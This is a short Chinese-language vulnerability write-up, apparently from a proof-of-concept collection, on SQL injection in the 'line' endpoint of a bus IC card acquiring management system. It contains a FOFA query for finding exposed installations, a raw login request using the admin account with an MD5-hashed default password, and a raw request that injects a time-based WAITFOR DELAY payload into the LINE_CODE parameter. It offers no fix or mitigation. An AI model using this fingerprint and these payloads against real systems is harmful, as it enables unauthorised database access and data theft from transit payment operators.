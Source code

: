 # 公交IC卡收单管理系统line存在SQL注入漏洞

公交IC卡收单管理系统line存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="公交IC卡收单管理系统"
```

## poc

获取cookie

```javascript
POST /login HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest

username=admin&password=e10adc3949ba59abbe56e057f20f883e
```

```javascript
POST /line HTTP/1.1
Host: 
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Priority: u=0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

_search=false&nd=1727248712232&rowCountPerPage=10&pageNo=1&sidx=LINE_CODE&sord=asc&method=select&ORGANIZATION_CODE=&LINE_CODE=1');WAITFOR DELAY '0:0:5'--
```

